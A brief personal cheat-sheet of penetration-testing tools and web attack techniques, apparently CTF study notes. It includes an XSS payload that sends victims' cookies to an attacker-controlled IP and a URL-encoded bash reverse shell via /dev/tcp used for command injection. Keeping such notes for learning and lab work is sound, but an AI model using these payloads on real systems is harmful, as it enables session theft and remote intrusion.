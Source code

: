 # Notes

Tools:
- nmap | $ nmap | Portscan
- john_the_ripper | $ john | PW & Hash Brute-forecing
- dirbuster | $ dirb | dir enumeration
- sherlock | $ python3 sherlock (use whole folder) | OSINT Profile detection by Username
- metasploit | $ msfconsole | Bunch of exploits
- steghide | $ steghide | steganography tool
- ncat | $ncat | use to listen on ports (for example to wait for XSS posts to your ip adress)


Technologies:
- AWS | Amazon Web Services; insecure cloud storage... Use a bucket-name to access on bucketname.amazonaws.com
- FTP | File Transfer Protocol | if configured you can access public files with user "annonymous" pw "guest"
- LFI | Local File Inclusion | Use functions or parameters to access server files; https://www.1337pwn.com/how-to-hack-a-website-using-local-file-inclusion-lfi/ 
- XSS | Cross-Site-Scription | i.e. unsanetiezed User Input (<script> new Image().src = "http://[ip_adress]:1234/cookie.php=cookie="+document.cookie;</cookie> -> then listen to port 1234 to retrieve other users cookie)
- Command Injection |  some sites allow you to run Shell-Commdans through URLs (http://10.10.66.101:3000/api/cmd/bash%20-i%20%3E&%20%2Fdev%2Ftcp%2F10.8.120.66%2F8000%200%3E&1); you can sometimes create reverse Shells with that
- reverse Shell | with Bash: https://hackernoon.com/reverse-shell-cf154dfee6bd 
